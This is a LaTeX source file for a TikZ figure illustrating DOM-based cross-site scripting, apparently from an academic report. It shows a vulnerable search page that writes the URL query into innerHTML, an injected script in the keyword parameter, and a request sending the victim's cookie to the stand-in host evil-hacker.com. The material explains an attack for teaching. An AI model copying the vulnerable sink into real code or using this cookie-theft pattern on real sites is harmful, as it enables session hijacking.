\documentclass[11pt, bibliography=numbered, headsepline, numbers=withenddot]{scrartcl}
\usepackage[a4paper, left=2.5cm, top=3cm, right=3cm, bottom=2.75cm]{geometry}
\usepackage{tikz}
\usetikzlibrary{math}
\renewcommand{\baselinestretch}{1.25}
\begin{document}
% \tikzmath{
% 	\au = 6; \vo = 3.5;
% }
% \begin{tikzpicture}[thick,scale=0.6, every node/.style={scale=0.6}]
% 	\begin{scope}[shift={+(0,1)}]
% 		\draw[red, very thick, rounded corners] (-3.5,5) rectangle (2.5,8.2);
% 		\draw[red, thick, rounded corners] (-3,5.2) rectangle (2,6.8);
% 		\node (a1)[red, align=left, font=\ttfamily, text width=5cm, text centered] at (-0.5,7.5) {\textbf{Attacker}};
% 		% \draw[black, very thick, rounded corners] (-1.5,7) rectangle (0.5,8);
% 		\node (a2)[red, align=left, font=\ttfamily, text width=4cm, text centered] at (-1,6) {\textbf{Attacker's server}};
% 		\foreach \y in {0,0.2,0.4,0.6,0.8}{
% 				\draw[black, very thick, rounded corners=1pt] (1.5,5.5 + \y) rectangle (1,5.7 + \y);
% 			}
% 	\end{scope}
%
% 	% attacker - victim
% 	\begin{scope}
% 		\draw[->, red, ultra thick] (1.25,\vo) -- (1.25,\au + 0.5);
% 		\draw[<-, gray, ultra thick] (-1,\vo) -- (-1,\au);
% 		\node[black, align=left, text width=10cm, text centered, circle] at (5.3,\au - 1.2)
% 		{
% 		{\color{red}
% 				\textbf{4}}\\
% 		GET\\
% 		http://evil-hacker.com/?cookie={\color{red}sensitive-data}
% 		};
% 		\node[black, align=left, text width=6cm, text centered, circle] at (-3.1,\au - 1.2)
% 		{
% 		\textbf{1}\\
% 		http://example.com\\
% 		/search?keyword=\\
% 		{\color{red}<script>...</script>}
% 		};
% 	\end{scope}
%
% 	% Victim
% 	\begin{scope}[shift={+(0,0)}]
% 		\draw[green, very thick, rounded corners] (-2,-2.8) rectangle (10,3.5);
% 		\draw[green, thick, rounded corners] (-1.5,-2.5) rectangle (9.5,2.3);
% 		% \draw[black, thick, rounded corners] (3,2.7) rectangle (5,3.7);
% 		% \draw[black, thick, rounded corners] (3,3.5) -- (5,3.5);
% 		\node[green, align=left, font=\ttfamily, text width=5cm, text centered] at (4,2.9) {\textbf{Victim's\\browser}};
% 		\node[black, align=left, font=\ttfamily] at (4,0)
% 		{
% 			{\color{green}\textbf{Website's response to victim after DOM manipulation}}\\\\
% 			<html>\\
% 			You searched for <em>{\color{red}<script>...</script>}</em>;\\
% 			<script>\\
% 			var keyword = location.search.substring(6);\\
% 			document.querySelector('em').innerHTML = keyword;\\
% 			</script>\\
% 			</html>
% 		};
% 	\end{scope}
%
% 	% Website
% 	\begin{scope}[shift={+(9,8)}]
% 		\draw[blue, very thick, rounded corners] (-2.5,-2.3) rectangle (10.5,3.5);
% 		\draw[blue, thick, rounded corners] (-2,-2) rectangle (10,2.5);
% 		\node[blue, align=left, font=\ttfamily, text width=5cm, text centered] at (3.9,3) {\textbf{Website}};
% 		\node[black, align=left, font=\ttfamily] at (4,0.2)
% 		{
% 			{\color{blue}\textbf{Website's response script}}\\\\
% 			print {\color{violet}"<html>"}\\
% 			print {\color{violet}"You searched for <em></em>;"}\\
% 			print {\color{violet}"<script>"}\\
% 			print {\color{violet}"var keyword = location.search.substring(6);"}\\
% 			print {\color{violet}"document.querySelector('em').innerHTML = keyword;"}\\
% 			print {\color{violet}"</script>"}\\
% 			print {\color{violet}"</html>"}
% 		};
% 	\end{scope}
%
% 	% victim - website
% 	\begin{scope}
% 		\draw[->, gray, ultra thick] (10,1) -- (16,1) -- (16,6);
% 		\draw[<-, gray, ultra thick] (9.5,0) -- (17,0) -- (17,5.7);
% 		\node[black, align=left, text width=5cm, text centered] at (13, 2.3)
% 		{
% 		\textbf{2}\\
% 		GET \\
% 		http://example.com\\
% 		/search?keyword=\\
% 		{\color{red}<script>...</script>}
% 		};
% 		\node[black, align=left, text width=5cm, text centered] at (13, -1)
% 		{
% 			\textbf{3}\\
% 			200 \\
% 			OK
% 		};
% 	\end{scope}
% \end{tikzpicture}


\begin{figure}
	\centering
	\tikzmath{
		\au = 6.5; \vo = 3.5;
	}
	
\begin{tikzpicture}[thick,scale=0.6, every node/.style={scale=0.6}]
		\begin{scope}[shift={+(0,1.5)}]
			\draw[red, very thick, rounded corners] (-3.5,5) rectangle (2.5,8.0);
			\draw[red, thick, rounded corners] (-3,5.2) rectangle (2,6.8);
			\node (a1)[red, align=left, font=\ttfamily, text width=5cm, text centered] at (-0.5,7.4) {\textbf{Attacker}};
			% \draw[black, very thick, rounded corners] (-1.5,7) rectangle (0.5,8);
			\node (a2)[red, align=left, font=\ttfamily, text width=4cm, text centered] at (-1,6) {\textbf{Attacker's server}};
			\foreach \y in {0,0.2,0.4,0.6,0.8}{
					\draw[black, very thick, rounded corners=1pt] (1.5,5.5 + \y) rectangle (1,5.7 + \y);
				}
		\end{scope}

		% attacker - victim
		\begin{scope}
			\draw[->, red, ultra thick] (1.25,\vo) -- (1.25,\au + 0.5);
			\draw[<-, gray, ultra thick] (-1,\vo) -- (-1,\au);
			\node[black, align=left, text width=10cm, text centered, circle] at (3.5,\au - 1.5)
			{
			{\color{red}
					\textbf{4}}\\
			GET\\
			http://evil-hacker.com/\\ 
			?cookie={\color{red}sensitive-data}
			};
			\node[black, align=left, text width=6cm, text centered, circle] at (-3.1,\au - 1.5)
			{
			\textbf{1}\\
			http://example.com\\
			/search?keyword=\\
			{\color{red}<script>...</script>}
			};
		\end{scope}

		% Victim
		\begin{scope}[shift={+(0,0)}]
			\draw[green, very thick, rounded corners] (-2,-3.3) rectangle (10,3.5);
			\draw[green, thick, rounded corners] (-1.5,-3.1) rectangle (9.5,2.5);
			% \draw[black, thick, rounded corners] (3,2.7) rectangle (5,3.7);
			% \draw[black, thick, rounded corners] (3,3.5) -- (5,3.5);
			\node[green, align=left, font=\ttfamily, text width=5cm, text centered] at (4,3) {\textbf{Victim's browser}};
			\node[black, align=left, font=\ttfamily] at (4,-0.3)
			{
				{\color{green}\textbf{Website's response to victim after DOM manipulation}}\\\\
				<html>\\
				You searched for <em>{\color{red}<script>...</script>}</em>;\\
				<script>\\
				var keyword = location.search.substring(6);\\
				document.querySelector('em').innerHTML = keyword;\\
				</script>\\
				</html>
			};
		\end{scope}

		% Website
		\begin{scope}[shift={+(9,8)}]
			\draw[blue, very thick, rounded corners] (-2.5,-2.3) rectangle (10.5,4.5);
			\draw[blue, thick, rounded corners] (-2,-2) rectangle (10,3.5);
			\node[blue, align=left, font=\ttfamily, text width=5cm, text centered] at (3.9,4) {\textbf{Website}};
			\node[black, align=left, font=\ttfamily] at (4,0.7)
			{
				{\color{blue}\textbf{Website's response script}}\\\\
				print {\color{violet}"<html>"}\\
				print {\color{violet}"You searched for <em></em>;"}\\
				print {\color{violet}"<script>"}\\
				print {\color{violet}"var keyword = location.search.substring(6);"}\\
				print {\color{violet}"document.querySelector('em').innerHTML = keyword;"}\\
				print {\color{violet}"</script>"}\\
				print {\color{violet}"</html>"}
			};
		\end{scope}

		% victim - website
		\begin{scope}
			\draw[->, gray, ultra thick] (10,1) -- (16,1) -- (16,6);
			\draw[<-, gray, ultra thick] (9.5,0) -- (17,0) -- (17,5.7);
			\node[black, align=left, text width=5cm, text centered] at (13, 2.5)
			{
			\textbf{2}\\
			GET \\
			http://example.com\\
			/search?keyword=\\
			{\color{red}<script>...</script>}
			};
			\node[black, align=left, text width=5cm, text centered] at (13, -1)
			{
				\textbf{3}\\
				200 \\
				OK
			};
		\end{scope}
	\end{tikzpicture}

	\caption{Visualization of DOM-Based XSS \cite{cyberpunk/domxss}}
	\label{fig:domxss}
\end{figure}

\end{document}
